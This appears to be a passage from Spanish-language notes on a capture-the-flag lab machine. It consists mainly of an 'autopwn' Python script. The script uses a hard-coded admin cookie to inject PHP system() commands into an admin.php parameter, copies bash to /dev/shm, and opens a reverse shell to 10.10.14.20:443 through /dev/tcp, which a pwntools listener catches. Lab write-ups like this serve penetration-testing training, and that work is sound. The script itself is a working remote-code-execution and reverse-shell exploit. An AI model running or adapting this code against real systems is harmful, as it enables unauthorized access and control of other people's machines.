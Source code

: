 ### Creacion del autopwn en python {-}

Aqui s4vitar decide crear un autopwn para automatizar el processo de ganacia de accesso

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import threading
import time

from pwn import *

def def_handler(sig, frame):
    
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.27/admin.php"
burp = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():

    headers = {
        'Cookie': 'adminpowa=noonecares'
    }

    r = requests.get(main_url + "?html=<?php%20system(\"cp%20/bin/bash%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"chmod%20+x%20/dev/shm/s4vitar\");%20?>", headers=headers)
    r = requests.get(main_url + "?html=<?php%20system(\"/dev/shm/s4vitar%20-c%20'/dev/shm/s4vitar%20-i%20>%26%20/dev/tcp/10.10.14.20/443%200>%261'\");%20?>", headers=headers)

    print(r.text)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest,args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=10).wait_for_connection()

    shell.interactive()
```
